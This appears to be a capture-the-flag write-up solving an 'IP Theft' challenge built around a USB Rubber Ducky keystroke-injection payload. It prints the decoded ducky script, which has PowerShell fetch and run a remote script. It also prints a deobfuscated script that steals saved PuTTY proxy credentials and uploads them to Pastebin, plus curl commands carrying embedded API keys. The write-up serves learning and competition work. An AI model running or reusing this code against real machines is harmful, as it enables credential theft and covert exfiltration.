

# IP Theft

## Write-up

For the `IP Theft` challenge I think the description made it clear that the attack we're talking about is keystroke injection attack using usb rubber ducky but if the description wasn't enough I attached a picture with usb and rubber ducky logo.

After googling how to decode rubber ducky binaries i think there's several [scripts](https://github.com/JPaulMora/Duck-Decoder) that can do that.

The decoded bin shows the following:

```
DELAY 2008

STRING Dpowershell -w h -NoP -NonI -Ep unrestricted "iex((iwr -UseBasicParsing https://www.klgrth.io/paste/3qsz5/raw).content)"
ENTER
```

We can notice the decoding is not accurate but it's enough to understande the what's going on.(You can find the original payload and other files that helped creating this challenge in this repo)

We can see the payload is running powershell script from [Specter](https://www.klgrth.io/)(Ghostbin).

the script is obviously obfuscated, so after many layers of obfuscation (I am sorry I used off the shelf obfuscators that had a frustrating amount of layers), we get to the following code:

```powershell
try{
    $content = (Get-ItemProperty -Path "HKCU:\Software\SimonTatham\PuTTY\Sessions\*" -ErrorAction Stop |select Proxyhost, ProxyUsername, ProxyPassword | out-string)
    Add-Type -AssemblyName System.Drawing
    $bmp = new-object System.Drawing.Bitmap 1920,1080
    $font = new-object System.Drawing.Font Consolas,18
    $brushBg = [System.Drawing.Brushes]::White
    $brushFg = [System.Drawing.Brushes]::Black
    $graphics = [System.Drawing.Graphics]::FromImage($bmp)
    $graphics.FillRectangle($brushBg,0,0,$bmp.Width,$bmp.Height)
    $graphics.DrawString($content,$font,$brushFg,500,100)
    $graphics.Dispose()
    $bmp.Save("./img.jpg")
    $content = [convert]::ToBase64String((gc "./img.jpg" -Encoding byte))
    $key = "SUPERSECRETKEY"
    Add-Type -AssemblyName System.Web
    $b64ed = [System.Web.HTTPUtility]::UrlEncode($($j=0;[convert]::ToBase64String($(for($i = 0;$i -lt $content.length;$i ++){[System.Text.Encoding]::UTF8.getBytes($content)[$i] -bxor [System.Text.Encoding]::UTF8.getBytes($key)[$j%$key.length]; $j++}))))
    $body = "api_dev_key=mQiMplTjO4G5AqJpFLXuXhQpkryZugnJ&api_paste_code="+$b64ed+"&api_option=paste&api_paste_private=1&api_user_key=452b99a2b4cc6bb03cd06e02ac93be56".replace("`n","").replace("`r","")
    #UPLOAD#
    Invoke-RestMethod -Uri "https://pastebin.com/api/api_post.php" -Method Post -Body $body
    del "./img.jpg"
}catch [System.Management.Automation.ItemNotFoundException] {
    echo "NOT FOUND"
 }
```

All the script is trying to do is steal some saved parameters of PuTTY Sessions and print that into an image Base64 it XOR it with the Key=SUPERSECRETKEY Then Base64 it again, and upload it to pastebin as an unlisted paste using api key and user key, and by reading the pastebin api it's relatively easy to list available pastes and then reversing the operations again.

To List Pastes

```bash
curl -XPOST https://pastebin.com/api/api_post.php -d 'api_user_key=452b99a2b4cc6bb03cd06e02ac93be56' -d "api_option=list" -d "api_dev_key=mQiMplTjO4G5AqJpFLXuXhQpkryZugnJ"
```

To Show the oldest paste (Use the oldest paste because many players just executed the script and it uploaded random picture to the account):

```bash
curl -XPOST https://pastebin.com/api/api_post.php -d 'api_user_key=452b99a2b4cc6bb03cd06e02ac93be56' -d "api_option=show_paste" -d "api_dev_key=mQiMplTjO4G5AqJpFLXuXhQpkryZugnJ" -d "api_paste_key=8JucNsc5"
```

By using a simple recipe at cyberchef we can get a picture with the flag:`IngeHack{1ts_ju5t_Inv0luntary_b3ckups_n0th1ng_m0r3}`


